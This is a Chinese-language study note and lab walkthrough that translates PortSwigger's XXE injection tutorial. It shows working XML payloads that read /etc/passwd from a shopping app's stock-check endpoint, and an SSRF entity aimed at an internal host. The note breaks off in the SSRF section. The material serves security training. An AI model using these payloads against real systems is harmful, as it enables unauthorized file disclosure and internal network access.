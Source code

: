 # XML external entity (XXE) injection

By: 1PingSun

Ref: [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

---

在本節中，我們將解釋什麼是 XML 外部實體注入，描述一些常見的範例，說明如何找到並利用各種類型的 XXE 注入，並總結如何防範 XXE 注入攻擊。

## 什麼是 XML 外部實體注入？

XML 外部實體注入（也稱為 XXE）是一種網路安全漏洞，允許攻擊者干擾應用程式對 XML 資料的處理。它通常允許攻擊者檢視應用程式伺服器檔案系統上的檔案，並與應用程式本身能夠存取的任何後端或外部系統進行互動。

在某些情況下，攻擊者可以利用 XXE 漏洞執行伺服器端請求偽造（SSRF）攻擊，將 XXE 攻擊升級為入侵底層伺服器或其他後端基礎設施。

![alt](src/image9.png)

圖片來源：[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

## XXE 漏洞是如何產生的？

有些應用程式使用 XML 格式在瀏覽器和伺服器之間傳輸資料。執行此操作的應用程式幾乎總是使用標準函式庫或平台 API 來處理伺服器上的 XML 資料。XXE 漏洞會產生，是因為 XML 規範包含各種潛在危險的功能，而標準解析器會支援這些功能，即使應用程式通常不使用它們。

::: info **延伸閱讀**

* [了解 XML 格式、DTD 和外部實體](https://portswigger.net/web-security/xxe/xml-entities)
:::

XML 外部實體是一種自訂 XML 實體，其定義值從宣告它們的 DTD 外部載入。從安全角度來看，外部實體特別值得關注，因為它們允許根據檔案路徑或 URL 的內容來定義實體。

## XXE 攻擊的類型有哪些？

XXE 攻擊有多種類型：

* [利用 XXE 擷取檔案](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)，其中定義包含檔案內容的外部實體，並在應用程式的回應中回傳。
* [利用 XXE 執行 SSRF 攻擊](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)，其中基於指向後端系統的 URL 定義外部實體。
* [利用盲注 XXE 進行頻外資料滲漏](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)，其中敏感資料從應用程式伺服器傳輸到攻擊者控制的系統。
* [利用盲注 XXE 透過錯誤訊息擷取資料](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)，其中攻擊者可以觸發包含敏感資料的解析錯誤訊息。

## 利用 XXE 擷取檔案

要執行從伺服器檔案系統擷取任意檔案的 XXE 注入攻擊，您需要以兩種方式修改提交的 XML：

* 引入（或編輯）`DOCTYPE` 元素，定義包含檔案路徑的外部實體。
* 編輯 XML 中會在應用程式回應中回傳的資料值，以使用已定義的外部實體。

例如，假設一個購物應用程式透過向伺服器提交以下 XML 來檢查產品的庫存水準：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<stockCheck><productId>381</productId></stockCheck>
```

該應用程式對 XXE 攻擊沒有採取特殊的防護措施，因此您可以透過提交以下 XXE 載荷來利用 XXE 漏洞擷取 `/etc/passwd` 檔案：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```

此 XXE 載荷定義了一個外部實體 `&xxe;`，其值為 `/etc/passwd` 檔案的內容，並在 `productId` 值中使用該實體。這會導致應用程式的回應包含該檔案的內容：

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
...
```

::: info Note

在真實世界的 XXE 漏洞中，提交的 XML 中通常會有大量的資料值，其中任何一個都可能在應用程式的回應中使用。要系統性地測試 XXE 漏洞，您通常需要個別測試 XML 中的每個資料節點，透過使用您定義的實體並查看它是否出現在回應中。
:::

::: tip Lab: [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

1. 題目說明在 "Check stock" 功能的地方能夠解析輸入的 XML。需存取 `/etc/passwd` 檔案以通過 Lab。
2. 嘗試在網站中點擊 "Check stock"，其會發送至 API `/product/stock`。請求 Body 如下：
    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
    ```
3. 進行 XXE Injection，修改請求 Body：
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck><productId>&xxe;</productId><storeId>
    1</storeId></stockCheck>
    ```
4. 成功取得 `/etc/passwd` 檔案內容。
:::

## 利用 XXE 執行 SSRF 攻擊

除了擷取敏感資料外，XXE 攻擊的另一個主要影響是它們可以用來執行伺服器端請求偽造（SSRF）。這是一個潛在的嚴重漏洞，其中伺服器端應用程式可能被誘導向伺服器可以存取的任何 URL 發出 HTTP 請求。

要利用 XXE 漏洞執行 SSRF 攻擊，您需要使用想要攻擊的 URL 定義外部 XML 實體，並在資料值中使用定義的實體。如果您可以在應用程式回應中回傳的資料值中使用定義的實體，那麼您將能夠在應用程式的回應中查看來自該 URL 的回應，從而與後端系統獲得雙向互動。如果不能，那麼您只能執行盲注 SSRF 攻擊（這仍然可能帶來嚴重後果）。

在以下 XXE 範例中，外部實體將導致伺服器向組織基礎設施內的內部系統發出後端 HTTP 請求：

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
